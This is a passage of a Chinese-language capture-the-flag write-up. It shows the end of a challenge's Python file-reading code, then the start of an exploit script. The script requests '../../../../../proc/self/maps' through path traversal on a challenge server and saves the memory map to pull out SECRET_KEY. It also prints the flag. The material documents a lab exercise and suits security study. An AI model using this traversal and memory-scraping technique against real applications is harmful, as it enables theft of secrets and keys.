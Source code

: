 ```py
            else:
                data = f.read()

        else:
            data = f.read()
            f.close()

    else:
        data = ("File `%s` not exist or can not be read" % filename).encode()

    return data


if __name__ == '__main__':
    opts, args = getopt.getopt(sys.argv[1:], '-h-f:-s:-e:', ['help', 'file=', 'start=', 'end='])
    # 给定文件名
    fileName = "../end.txt"
    # 给定起始位
    start = 0
    # 给定结束位
    end = 50

    if fileName != "":
        print(cat(fileName, start, end))

    else:
        print("No file to read")

```

### 3. 解题复现

**抓取内存信息脚本**

在这一步做到了抓取SECRET_KEY，但是无法复现Session伪造！（不知道什么原因）

直接抓Flag的话也抓的到：`catctf{Catch_the_c4t_HaHa}`

最好将关键信息保存到txt文件再做分析，控制台总感觉好像显示bu'quan

```py
import requests
from lxml import etree
import re


# 1. 先读取maps文件
req = requests.get('http://61.147.171.105:60619/info?file=../../../../../proc/self/maps').content

# 2. 将maps文件写入本地：maps.txt
html = etree.HTML(req.decode())
list1 = html.xpath('//div[@class="feature-block"]/p/text()')
# print(list1[0])

# 3. 将得到的结果做格式处理并写入 maps.txt
maps_data = re.search("b'(.*?)'", list1[0])
maps_data = maps_data.group(1)
maps_data = maps_data.replace("\\n", "\n")

with open('maps.txt', 'w') as f:
    f.write(maps_data)

count = 1
# 抓取有权限访问的内存地址：rw-p,并访问
with open('maps.txt', 'r') as maps:
```